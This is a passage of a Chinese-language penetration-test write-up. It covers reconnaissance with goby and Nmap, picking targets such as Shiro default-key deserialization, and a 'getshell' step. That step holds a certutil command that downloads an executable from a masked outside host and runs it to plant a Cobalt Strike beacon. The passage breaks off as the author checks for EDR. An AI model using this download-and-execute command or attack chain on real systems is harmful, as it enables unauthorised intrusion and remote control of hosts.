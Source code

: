 
*   theHarvester
    

*   挂代理
    

0x02 资产梳理
---------

> goby 内测版

*   安装好插件
    
*   勾选 upnp 等协议的发现
    
*   给定的全部端口
    

> Nmap 辅助

*   -sV
    
*   -O
    
*   --script=banner,vuln,exploit,brute
    

0x03 摸点
-------

*   网络设备、安全设备的默认口令
    
*   Weblogic、Struts2 远程代码执行
    
*   tomcat 默认口令
    
*   shiro 反序列化
    

这次的目标就是从 shiro 默认 key 反序列化开始的

![](https://mmbiz.qpic.cn/mmbiz_png/fZT30hrVgRfu0caWH4oME8ZFJy9M3kbLBJWMbCnzq2MEuckVaR69xw2GPCNI9iaQJkPMJmXXnC0Vuc6r1BCNYeA/640?wx_fmt=png)

默认 key，使用 CommonsCollections10 测试是否出网

![](https://mmbiz.qpic.cn/mmbiz_png/fZT30hrVgRfu0caWH4oME8ZFJy9M3kbLUHgolX9Yz0vVRIQM7LdSf1de5zmr3U3TkzPpy0icZ3MGxByZTjpjmdA/640?wx_fmt=png)

稳了呀！

0x04 getshell
-------------

下马，上线

```
certutil -urlcache -split -f http://xx.xx.xx.xx/robots.txt C:\Users\admin\a.exe && C:\Users\admin\a.exe
```

在 cs 上等了很久也没有等到上线，到 vps 上一看，发现目标并没有发起下载请求，心中暗叫一声不好，估计有 edr  

tasklist 看一下
